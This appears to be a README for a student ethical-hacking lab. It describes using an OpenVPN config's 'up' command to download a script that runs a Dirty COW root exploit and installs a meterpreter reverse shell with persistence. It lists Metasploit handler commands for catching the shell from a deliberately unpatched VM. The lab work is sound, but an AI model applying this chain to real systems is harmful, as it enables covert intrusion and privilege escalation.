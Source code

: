 # Ethical Hacking Assignment 1

This is a demo of using a malicious openvpn configuration to gain access to a linux system.

In Openvpn configuration files, in the up command, arbitrary code can be run. This is a 'feature' of the software that I will be using maliciously.

When the user runs the program, it opens up an OpenVPN connection to the server. The server has a static IP of 10.8.0.1. The up command downloads the script `script.sh` from this github repository.

## The Script

The script checks if it is running as root. If it isn't, It'll check the linux kernel version. If it is within the range for a working dirtycow exploit, it will download, compile and run the exploit to gain root.

If it is not able to attain root, it will continue on with the program.

It checks whether the `shell.elf` executable already exists in the system. If not, it downloads the meterpreter reverse shell executable `shell.elf` from this repo.

It attempts to persist this shell access through init scripts (WIP)

## Issues faced

For some weird reason, I couldn't access the STDIN of the root shell created by the dirtycow exploit. Thus, privilege escalation has to be done manually from the metasploit shell. However, the dirtycow exploit binary should be in the TMP folder of the system, which can be used to elevate the meterpreter session to root

## Setup

1. Download Kali Linux and set it up as a VM.
2. Follow this (guide)[https://www.digitalocean.com/community/tutorials/how-to-set-up-an-openvpn-server-on-ubuntu-18-04] to install OpenVPN and get a basic setup running
3. From the VM configuration, create a new private network, (EH Demo). Allow it access to the internet
4. Give the server a memorable static IP.
5. Create a new (Ubuntu 14.04)[http://old-releases.ubuntu.com/releases/14.04.0/] VM. The one I used was (this)[http://old-releases.ubuntu.com/releases/14.04.0/ubuntu-14.04-desktop-amd64.iso]
6. DO NOT UPDATE THE VM
7. In the VM, install openvpn. 
8. Copy over the generated client OpenVPN configuration from `Step 2` into the VM.
9. Rename the file from `client.ovpn` to `client.conf`
10. Move file to openvpn directory `sudo mv client.conf /etc/openvpn/`
10. Start the OpenVPN service with `sudo /etc/init.d/openvpn start`
11. The exploit should start up automatically
12. On the Kali VM, start up metasploit.
13. `use exploit/multi/handler`
14. `set payload linux/x86/meterpreter/reverse_tcp`
14. `set LHOST 10.8.0.1` This is the default Server IP set by OpenVPN
15. `exploit` Now you should have a reverse shell into the victim's PC.
16. To obtain root, cd into tmp directory and run the dirtycow executable. You should now be elevated into root privileges
